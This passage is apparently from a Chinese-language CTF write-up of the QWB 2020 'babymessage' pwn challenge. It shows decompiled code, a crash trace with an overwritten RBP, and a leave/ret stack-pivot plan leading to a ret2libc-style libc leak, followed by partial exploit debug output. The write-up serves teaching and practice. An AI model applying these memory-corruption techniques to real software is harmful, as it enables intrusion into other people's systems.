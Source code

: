 `show`函数打印`name`和用户输入`buffer`的内容：

```cpp
__int64 __fastcall show(unsigned int a1)
{
  printf("%s says: ", name);
  write(1, buf, a1);
  return 0LL;
}
```

## 调试分析

初看起来是负数溢出，可是`v1`的值与`switch`绑定，没找到其他的修改方法。随手输入十几个字符试试，发现`crash`现场的`RBP`刚好被我们的输入覆盖了：

```assembly
Starting program: /home/hjc18/PWN/qwb2020/babymessage/babymessage
Welcome to message system!
1. leave name
2. leave message
3. show message
4. exit
choice:
2
message:
ssssssssssssssssssssssssssssssssssssssssss
done!

# crash
RBP  0x7373737373737373 ('ssssssss')
RSP  0x7fffffffdc20 —▸ 0x7fffffffdd20 ◂— 0x1
RIP  0x400985 (work+107) ◂— cmp    dword ptr [rbp - 4], 0x100
```

恍然大悟，看了看`leave_message`的汇编，`leave_ret`组合拳：

```assembly
.text:000000000040086F                 add     rax, rdx
.text:0000000000400872                 mov     byte ptr [rax], 0
.text:0000000000400875                 lea     rdi, aDone      ; "done!\n"
.text:000000000040087C                 call    _puts
.text:0000000000400881                 mov     eax, 0
.text:0000000000400886                 leave  <- target!
.text:0000000000400887                 retn
.text:0000000000400887 ; } // starts at 40080A
```

这样一来可以用栈迁移的方法修改`v1`，覆盖`RBP`至`BSS`段的`name`变量，将`name`的数据解析成`v1`，继而修改`leave_message`的写入长度，将返回地址覆写为`puts`，获取基址的方法与`ret2libc`相同：

```shell
# shell
[DEBUG] Received 0x5b bytes:
    'Welcome to message system!\n'
    '1. leave name\n'
    '2. leave message\n'
    '3. show message\n'
    '4. exit\n'
    'choice: \n'
[DEBUG] Sent 0x2 bytes:
    '1\n'
[DEBUG] Received 0x7 bytes:
    'name: \n'
[DEBUG] Sent 0x4 bytes:
    00000000  50 00 00 0f => name: 0xf0000050

# mod_rbp
```
